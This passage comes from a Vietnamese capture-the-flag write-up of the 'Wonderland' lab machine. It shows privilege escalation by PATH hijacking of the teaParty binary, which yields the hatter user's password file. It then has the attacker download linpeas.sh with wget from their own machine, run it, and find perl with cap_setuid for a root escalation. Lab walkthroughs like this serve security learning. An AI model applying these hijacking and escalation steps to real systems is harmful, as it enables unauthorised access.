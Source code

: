 Thay đổi quyền cho file bằng `chmod +x /tmp/date` và thêm path */tmp* vào đầu biến PATH để khi chạy file *teaParty* nó sẽ nhận path */tmp* đầu tiên.

```python
rabbit@wonderland:/home/rabbit$ chmod +x /tmp/date 
rabbit@wonderland:/home/rabbit$ export PATH=/tmp:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/tmp:/tmp:/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by 
1337
hatter@wonderland:/home/rabbit$ 
hatter@wonderland:/home/hatter$ ls 
password.txt
```

Vậy là tôi có password của user *hatter*. Thử login ssh bằng user này. Tuy nhiên thử cả `sudo -l`, crontab hay tìm file do *hatter* sở hữu đều không có kết quả. Đến bây giờ thì phải dùng đến [linpeas](https://github.com/carlospolop/PEASS-ng.git). Tạo http server từ máy local và tải file lên thôi. Sau đó đổi quyền cho file và để nó làm phần việc của mình.

```python
hatter@wonderland:~$ wget http://10.18.3.74:9001/linpeas.sh
--2022-08-11 10:05:56--  http://10.18.3.74:9001/linpeas.sh
Connecting to 10.18.3.74:9001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 777018 (759K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                      100%[====================================================================================================>] 758.81K   141KB/s    in 5.4s    

2022-08-11 10:06:02 (141 KB/s) - ‘linpeas.sh’ saved [777018/777018]
hatter@wonderland:~$ chmod +x linpeas.sh 
hatter@wonderland:~$ ./linpeas.sh 
```

Cuối cùng thì tôi cũng tìm được thứ mình cần

```python
Files with capabilities (limited to 50):
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

```python
hatter@wonderland:~$ ll /usr/bin/perl /usr/bin/perl5.26.1
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl*
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl5.26.1*
```

Điều này có nghĩa là user *hatter* có quyền thực thi cũng như quản lý nó. Thử vào [GTFOBins](https://gtfobins.github.io) để tìm perl với Capabilities.
